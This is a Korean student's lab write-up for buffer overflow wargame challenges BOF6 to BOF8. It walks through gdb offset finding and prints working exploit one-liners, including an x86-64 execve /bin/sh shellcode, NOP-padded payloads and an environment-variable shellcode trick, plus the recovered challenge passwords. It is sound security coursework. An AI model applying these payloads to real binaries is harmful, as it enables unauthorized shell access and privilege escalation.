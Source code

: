 # 과제 

## BOF6
### 취약점 분석

![bof6_1](bof6_1.png)

bof6파일에서는 get함수를 이용하여 문자열을 저장한다.
따라서 overflow가 발생할 수 있다.

이번에는 전 bof1~5번 파일과는 다르게 system파일이 존재하지 않는다.
따라서 우리가 강제로 프로그램에 흐름을 바꿔 shell을 실행시킬 필요가 있다.

bof6에는 shellcode가 다음과 같이 0x7fffffffe440 이라는 주소에 저장되어 있다. 그렇기 때문에 우리는 프로그램에 흐름을 해당주소로 향하게 바꾸기만 하면 shell을 실행시킬 수 있다.

![bof6_4](bof6_4.png)

프로그램에 흐름을 바꾸기 위해서는 함수의 return address를 덮어씌울 필요가 있다.

gdb를 통하여 return address가 저장되는 주소를 구하고(0x7fffffffe4a8)

![bof6_2](bof6_2.png)

get함수의 rdi값을 구하여 2 주소값의 차를 구하면 buff와 return address까지의 크기를 구할 수 있다.

136 이라는 값이 나왔다.

![bof6_3](bof6_3.png)

    (python -c "print 'a'*136+'\x40\xe4\xff\xff\xff\x7f'";cat) | /bof6

136개의 의미없는 글자와 shellcode가 들어있는 주소를 넣어 프로그램이 해당 주소로 가도록 조작한다.

![bof6_5](bof6_5.png)

권한 탈취 후 bof7.pw파일을 실행하여 661aa6d8 이라는 값을 얻을 수 있다.

## BOF7
### 취약점 분석

![bof7_1](bof7_1.png)

bof7에서는 main인자를 전달받아 strcpy로 buf에 저장한다. 따라서 오버플로우에 위험이 있다.

bof7은 6과 비슷하나 get이 아닌 main에 argument로 받는다는점과 내부에 shellcode가 존재하지 않는 다는 것이 다르다. 
따라서 오버플로우를 일으켜 shellcode가 존재하는 곳까지 프로그램에 흐름을 바꿀 필요가 있다.

![bof7_2](bof7_2.png)

다음과 같이 프로그램을 실행시키면 buff의 주소를 알 수 있다.

gdb를 이용하여 구한 136이라는 size와 buff의 주소를 이용하여 shellcode ``` \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```
를 버퍼에 집어넣고 프로그램의 흐름을 버퍼로 향하도록 조작하면 shell을 실행 시킬 수 있다.

bof7은 main에서 인자를 받기 때문에 ``를 사용하여
실행파일 `73글자+27개의 shellcode+ 36글자 + buff의 주소`의 형식을 갖추면 권한 탈취가 가능하다.

./bof7 `python -c "print '\x90'*73+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*36 +'\xc0\xe3\xff\xff\xff\x7f'"`

![bof7_3](bof7_3.png)

04ccd53d

## BOF8
### 취약점 분석

![bof8_1](bof8_1.png)

BOF8은 BOF6와 흡사하다. 하지만 버퍼의 사이즈가 8로 매우 작은 것을 확인 할 수있다. 이를 gdb를 이용하여 확인해보니

![bof8_5](bof8_5.png)

![bof8_6](bof8_6.png)

다음과 같이 16개의 글자가 들어갈 수 있는 것을 확인할 수 있다.

shellcode는 27개의 글자가 필요하기 때문에 buff안에 shellcode를 넣기에는 사이즈가 너무 작다. 따라서 다른곳에 저장해둔 shellcode를 불러올 필요가 있다. 

bof8에는 환경변수를 불러오는 함수 getenv가 존재한다. 

getenv함수는 주어진 이름과 일치하는 환경변수를 검색하여 있으면 해당 주소를 반환하고 없으면 null을 반환한다.

아직은 shellcode라는 환경변수를 만들지 않았기 때문에 프로그램을 실행시키면

![bof8_2](bof8_2.png)

nill이라는 문자가 뜬다.

환경변수 SHELLCODE에 shellcode를 저장하기 위하여
export SHELLCODE="`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`"
라는 명령어를 실행한다.

그러면 다음과같이 SHELLCODE가 생성되어있는 것을 확인할 수 있다.

![bof8_3](bof8_3.png)

![bof8_4](bof8_4.png)

그 후 프로그램을 실행시켜 환경변수가 위치한 address를 구한 뒤 

![bof8_7](bof8_7.png)
(python -c "prinf 16글자 + 환경변수 주소")의 형식으로 입력을 하면

    (python -c "print '\x90'*16+'\x19\xe8\xff\xff\xff\x7f'";cat)|./bof8
프로그램의 흐름이 바뀌어 shell을 실행시켜 권한 탈취가 가능하게 된다.

bof8을 진행하며 처음에는 

![bof8_8](bof8_8.png)

다음과 같은 방식을 시도하였으나 실패하였다.